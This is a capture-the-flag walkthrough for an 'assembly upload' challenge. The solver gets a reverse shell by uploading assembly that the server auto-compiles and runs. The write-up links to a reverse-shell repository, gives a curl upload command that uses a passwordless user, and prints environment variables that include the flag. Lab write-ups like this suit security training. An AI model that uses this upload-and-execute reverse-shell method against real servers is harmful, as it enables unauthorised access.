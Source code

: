 # CTF Reversing-Challenge | Shell Assembly Writeup: Medium

## Challenge Overview

  - You have gotten upload access to a core file of a server, now its time to expand priviliges. The core file in question is an assembly raw file, that automatically gets compiled and executed.
  - The script is using elf64 as a syntax.
  - The standard C library is available on the system.

## Steps to Solve

1. **Create a reverse shell script**:
   Or maybe just take one from GitHub:
   https://github.com/Xre0uS/linux-reverse-shell-in-assembly


2. **Uploading the Script**
We have a user compromised, he is called FlagFrenzy. Somehow it was forgotten to set a password on the user though. Time to upload as the user with the following command.
```sh
curl -XPOST -F 'data=@script.asm' localhost:3000/upload?key=FlagFrenzy
```

3. **Search for the flag**
The flag is inside the environment parameters.  
```sh
/ # printenv 
NODE_VERSION=14.21.3
HOSTNAME=20da255c7947
YARN_VERSION=1.22.19
SHLVL=1
HOME=/root
OLDPWD=/code
KEY_FlagFrenzy=/uploads/assembly-script.asm
STATIC_FLAG="FF{5155e13add408c374b3b26bbbbb3d8a7}"
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/
NODE_ENV=production
```

